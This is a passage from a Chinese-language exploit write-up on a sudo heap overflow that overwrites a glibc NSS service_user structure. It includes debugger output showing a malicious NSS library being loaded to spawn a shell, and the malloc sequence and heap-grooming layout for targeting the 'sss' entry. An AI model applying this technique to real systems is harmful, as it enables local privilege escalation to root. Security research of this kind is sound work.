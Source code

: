 可以看到这里的顺序和服务规范和`ubuntu`下面不一样，因此这里的堆布局与`ubuntu`也不相同。我们先看一下系统的调用逻辑是否发生了改变。经过调试发现其调用逻辑与`ubuntu`下相同

我们将`ni`结构体手动修改如下

```
pwndbg&gt; p *ni
$4 = `{`
  next = 0x0,
  actions = `{`NSS_ACTION_CONTINUE, NSS_ACTION_CONTINUE, NSS_ACTION_CONTINUE, NSS_ACTION_CONTINUE, NSS_ACTION_CONTINUE`}`,
  library = 0x555555582be0,
  known = 0x555555592b30,
  name = 0x5555555861a0 "X/P0P_SH3LLZ_ "
`}`
pwndbg&gt; p shlib_name
$5 = 0x7fffffffdeb0 "libnss_X/P0P_SH3LLZ_ .so.2"
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0101be57f2464a08e7.png)

经过手动修改的`ni`结构体，这里继续执行就会`getshell`。

```
pwndbg&gt; c
Continuing.
[+] bl1ng bl1ng! We got it!
process 123212 is executing new program: /usr/bin/bash
Error in re-setting breakpoint 2: No source file named sudo.c.
Error in re-setting breakpoint 3: No source file named sudo.c.
Error in re-setting breakpoint 4: No source file named sudo.c.
```

那么接下来的问题就是如何复习这个结构体了，与`ubuntu`覆写`files service_user`不同，这里需要覆写的是`sss service_user`结构体，但是两者没有本质的区别都是`group`的第一个结构体，唯一不同的就是分配到`group`服务规范的结构体之前`get_user_info`所分配的堆块的数量，我们调试一下

```
malloc(0x100)
malloc(0x400)
malloc(0x228) // tcache
malloc(0x10)
malloc(0x78)// 目标0x80堆块
malloc(0x1000)
malloc(0x17) // 开始为passwd分配service_user // tcache
malloc(0x34)
malloc(0x36)
malloc(0x38)
malloc(0x17) // 开始为shadow分配service_user
malloc(0x36)
malloc(0x34)
malloc(0x16)// 开始为group分配service_user
malloc(0x34)// 这里就是sss service_user的结构体
```

这里我们需要提前布置`6`个`0x40`大小的堆块，和一个`0xc0`大小的堆块（这里布置`0x80`的堆块不合适，因为之后会被申请并更换为高地址的`0x80`堆块，经过测试`0xc0`大小的堆块可以。）
